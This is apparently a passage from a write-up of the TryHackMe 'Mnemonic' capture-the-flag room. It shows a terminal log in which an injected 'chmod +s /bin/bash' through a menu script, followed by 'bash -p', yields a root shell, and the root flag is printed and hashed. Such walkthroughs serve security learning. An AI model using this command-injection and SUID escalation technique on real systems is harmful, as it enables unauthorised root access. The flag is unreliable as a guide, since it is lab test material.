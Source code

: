 ```bash
	#Network Connections   [1]

	#Show \u0130fconfig         [2]

	#Show ip route         [3]

	#Show Os-release       [4]

        #Root Shell Spawn      [5]           

        #Print date            [6]

	#Exit                  [0]

	

Select:0
are you sure you want to quit ? yes : .

Running....chmod +s /bin/bash
0
condor@mnemonic:~$ /bin/bash -p
bash-4.4# pwd
/home/condor
bash-4.4# cd /root
bash-4.4# ls -la
total 44
drwx------  6 root root 4096 Jul 15  2020 .
drwxr-xr-x 24 root root 4096 Jul 13  2020 ..
lrwxrwxrwx  1 root root    9 Jul 14  2020 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  2 root root 4096 Jul 13  2020 .cache
-rw-r--r--  1 root root  221 May 11 17:25 f2.txt
drwx------  3 root root 4096 Jul 13  2020 .gnupg
drwxr-xr-x  3 root root 4096 Jul 13  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   36 Jul 13  2020 root.txt
drwx------  2 root root 4096 Jul 13  2020 .ssh
-rw-------  1 root root    0 Jul 15  2020 .viminfo
-rw-r--r--  1 root root  165 Jul 14  2020 .wget-hsts
bash-4.4# cat f2.txt
b' 17:25:04 up 19 min,  1 user,  load average: 0.00, 0.05, 0.18\nUSER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT\ncondor   pts/0    10.10.125.102    17:23    7.00s  0.03s  0.01s sshd: condor [priv] \n'bash-4.4# cat root.txt
THM{congratulationsyoumadeithashme}
bash-4.4# 
```

<br>

```bash
:~/Mnemonic# echo -n "congratulationsyoumadeithashme" | md5sum
2a4825f50b0c16636984b448669b0586  -
```
